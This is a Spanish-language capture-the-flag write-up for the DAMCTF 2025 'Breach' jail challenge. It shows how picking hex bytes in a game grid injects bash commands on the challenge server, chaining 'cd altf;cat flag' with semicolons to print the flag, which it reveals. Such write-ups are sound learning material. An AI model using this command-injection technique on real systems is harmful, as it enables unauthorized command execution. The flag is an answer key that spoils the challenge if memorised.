```yaml
---
title: Breach - DAMCTF2025
author: Kesero
description: Reto basado escapar de un binario inyectando instrucciones en hexadecimal aportadas.
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Writeups, Dificultad - Media, Misc - Jail]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Breach/img/1.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `tlop`

Dificultad: <font color=orange>Media</font>

## Enunciado

`hack the mainframe, choom. eddies for days. ssh chal@breach.chals.damctf.xyz pw: chalworksnow`

## Archivos

Este reto nos los siguientes archivos.

- `breach` : Contiene el binario del programa ejecutándose en el servidor.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Breach).


## Analizando el reto

Al ejecutar el binario nos encontramos el siguiente programa.

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: []
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
[74] 63  63  2D  73  73  20  6C  63  2D 
 3B  74  66  74  3B  6C  67  66  20  73 
 74  67  67  74  61  20  3B  73  6C  2D 
 67  52  64  6C  61  3B  73  20  66  73 
 61  61  61  2D  6C  66  67  63  63  3B 
 67  64  66  61  52  67  20  67  63  63 
 66  64  64  52  74  2D  73  20  52  74 
 6C  63  6C  20  20  67  66  6C  66  3B 
 3B  64  2D  3B  6C  61  2D  61  61  20 
 63  52  6C  74  64  66  3B  20  6C  52 

Controls:
[Arrows] Move | [Space] Select | [Enter] Submit | [q] Quit
█///////////////////////////////////NET/TECH///////////////█
████████████████████████████████████████████████████████████
```

En el cual podemos encontrar una matriz de cadenas en hexadecimal la cual el usuario alterará entre fila y columna seleccionada cada vez que introduzca un la tecla `enter`

## Solver

Primero vamos a entendre cómo funciona el binario.

1. Comenzamos moviendo ls filas de la matriz, es decir, tenemos aceso a movernos horizontalmente por la primera fila.

2. No podemos movernos diagonalmente.

3. Cada vez que introducimos un valor, los ejes cambian y tendremos acceso a las columnas (y viceversa)

4. El eje que podemos mover saldrá en la sección de `[DEBUG]`

En este ejercicio, tenemos que encontrar la combinación de teclas que nos permita listar el contenido de la flag en la máquina perteneciente al servidor. Para ello primero que nada tenemos que ir jugando y probando combinaciones de valores de los inputs aportados. Despúes de analizar los valores, podemos encontrar que los siguientes caracteres corresponden a los siguientes valores únicos.

```
20 - " "
2d - "-"
3b - ";"
6c - "l"
52 - "R"
61 - "a"
63 - "c"
64 - "d"
66 - "f"
67 - "g"
73 - "s"
74 - "t"
```

Además, sabemos que todos los caracteres mencionados previamente, se traducirán en comandos `bash` por parte del servidor. Por ejemplo, vamos a probar a ejecutar el comando `ls` en el servidor. Para ello tendremos que introducir la secuencia `6c 73`. El resultado es el siguiente.

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [6C 73 ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
BREACH FAILED. ERROR:
breach
```

A simple vista puede parecer que no encontramos información, pero en el directorio actual de trabajo tenemos el binario `breack` por lo que está listando el contenido en mi carpeta. Si lo hacemos en el servidor en remoto, obtenemos lo siguente.

´´´
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [6C 73 ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
BREACH FAILED. ERROR:
alft
altf
atfl
falt
flat
latf
´´´

Podemos ver que existen unos archivos o directorios que se llamana `alft altf atfl falt flat latf`
Para saber de qué se trata este conjunto, podemos utilizar el comando `ls -fl` el cual se traduce a la combinación `6c 73 20 2d 66 6c`. El resultado es el siguiente.

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [6C 73 20 2D 66 6C ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: x
BREACH FAILED. ERROR:
total 0
drwxr-xr-x. 1 root root 18 May 10 07:44 .
drwxr-xr-x. 1 root root 39 May 12 00:09 ..
drwxr-xr-x. 1 root root 18 May 10 07:44 altf
drwxr-xr-x. 2 root root  6 May 10 07:44 alft
drwxr-xr-x. 2 root root  6 May 10 07:44 atfl
drwxr-xr-x. 2 root root  6 May 10 07:44 falt
drwxr-xr-x. 2 root root  6 May 10 07:44 flat
drwxr-xr-x. 2 root root  6 May 10 07:44 latf
```
Perfecto, ahora sabemos que los archivos listados se corresponden con carpetas. Llegados a este punto, tendremos que introducir el comando `cat` seguido del nombre la carpeta y listar su contenido para observar los archivos en su interior (esto es posible por que tenemos el juego de caracteres a nuestra disposición) Por tanto lo que ejecutaremos será el comando `cd <nombre_carpeta>;ls -l` que se traduce al comando `63 64 20 <nombre_carpeta> 3b 6c 73 20 2d 6c`.

En este caso, podemos observar como la carpeta `altf` tiene un tamaño de 18 bytes y es la mayor de todas ellas, podemos asumir que la flag está en es directorio, así nos ahorraremos intentos en el camino.

Por ejemplo, si queremos leer la carpeta `altf` tendremos que introducir el comando `63 64 20 61 6c 74 66 3b 6c 73 20 2d 6c`

```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [63 64 20 61 6C 74 66 3B 6C 73 20 2D 6C ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: y
BREACH FAILED. ERROR:
total 4
-rw-r--r--. 1 root root 35 May 10 04:48 flag
```

Listo, hemos encontrado el archivo de la flag. Ahora solo queda listarla, para ello nuevamente utilizaremos el comando `cd altf;cat flag` que se corresponde con el comando `63 64 20 61 6C 74 66 3B 63 61 74 20 66 6C 61 67`. El resultado es el siguiente.


```
████████████████████████████████████████████████████████████
█///////////////NET/TECH///////////////////////////////////█

BUFFER: [63 64 20 61 6C 74 66 3B 63 61 74 20 66 6C 61 67 ]
SEQUENCE REQUIRED TO UPLOAD
[63][66][20][3b][74] NEUTRALIZE MALWARE
[67][20][67][3b][6c][74][3b][20] DATAMINE: COPY MALWARE

DEBUG: AXIS: y
BREACH FAILED. ERROR:
bash: line 1: af: command not found
dam{ac<ident4lly_mad3_a_ds&a_ch@l}
```

## Flag
`dam{ac<ident4lly_mad3_a_ds&a_ch@l}`